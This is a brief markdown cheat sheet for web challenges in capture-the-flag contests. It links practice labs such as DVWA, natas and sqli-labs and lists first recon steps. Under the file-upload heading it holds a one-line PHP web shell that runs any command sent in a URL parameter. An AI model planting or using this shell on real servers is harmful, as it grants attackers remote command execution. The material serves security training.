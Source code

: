 ## ► web

★ No. 1 resource for web: https://portswigger.net/

### Initial checks
- robots.txt
- git dumpster
- directory bruteforce

### Time wasters
- https://overthewire.org/wargames/natas/
- http://www.itsecgames.com/
- https://ctf.hacker101.com/
- https://www.hackthissite.org/
- http://www.dvwa.co.uk/

### SQL Injection
- https://github.com/Audi-1/sqli-labs/
### XSS
### XXE
### Path Traversal
### PHP deserealization
### File Upload


#### Basic PHP shell

``` <?php echo system($_GET['c']); ?> ```

### Local File Inclusion
